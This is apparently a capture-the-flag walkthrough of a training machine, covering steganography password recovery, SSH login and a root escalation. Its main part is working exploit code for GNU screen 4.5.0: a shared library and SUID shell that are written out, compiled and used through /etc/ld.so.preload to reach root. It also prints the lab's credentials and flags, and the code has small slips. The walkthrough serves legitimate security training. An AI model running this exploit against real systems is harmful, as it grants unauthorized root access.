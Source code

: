 - 	Go to port 80, download the apache broken img.
- 	Fix the header to jpg.
- 	Go to the hidden directory. Bruteforce the secret parameter
- 	Got y2RPJ4QaPF!B -> steghide extract -sf thm.jpg
- 	username wbxre -> rot13 -> JOKER
- 	download the chall img. Steghide extract again. Got *axA&GF8dP
- 	username: JOKER, pass: *axA&GF8dP
- 	ssh joker@10.10.176.228
- 	joker@ubuntu:~$ cat user.txt 
  	THM{d5781e53b130efe2f94f9b0354a5e4ea}
- 	This particular version of the screen software opens the logfile with full root privileges so it’s 	possible to write any file anywhere on the system. In a nutshell, the priv esc is:
	
	1. Compile /tmp/rootshell, a binary that simply spawns /bin/sh as user root
    2. Compile /tmp/libhax.so, a shared library that will be loaded by screen as root. It chmods my rootshell binary to make it run as root.
    3. Run screen and overwrite /etc/ld.so.preload to include the shared library /tmp/libhax.so
    4. Run screen gain, this will load the shared library and execute the code
    5. Now, the rootshell binary is SUID root and we can run it to get root access

	```
	$ cat << EOF > /tmp/libhax.c
	#include <stdio.h>
	#include <sys/types.h>
	#include <unistd.h>
	__attribute__ ((__constructor__))
	void dropshell(void){
	    chown("/tmp/rootshell", 0, 0);
	    chmod("/tmp/rootshell", 04755);
	    unlink("/etc/ld.so.preload");
	    printf("[+] done!\n");
	} 
	> EOF

	$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
	$ rm -f /tmp/libhax.c
	```

	```
	$ cat << EOF > /tmp/rootshell.c
	#include <stdio.h>
	int main(void){
	    setuid(0);
	    setgid(0);
	    seteuid(0);
	    setegid(0);
	    execvp("/bin/sh", NULL, NULL);
	}
	EOF
	$ gcc -o /tmp/rootshell /tmp/rootshell.c
	$ rm -f /tmp/rootshell.c
	```

	```
	$ cd /etc
	$ umask 000
	$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
	$ //bin/screen-4.5.0 -ls
	' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
	[+] done!
	No Sockets found in /tmp/screens/S-joker.

	$ /tmp/rootshell
	# whoami
	root
	```

- 	cd /root/ && cat root.txt
  	THM{5ecd98aa66a6abb670184d7547c8124a}
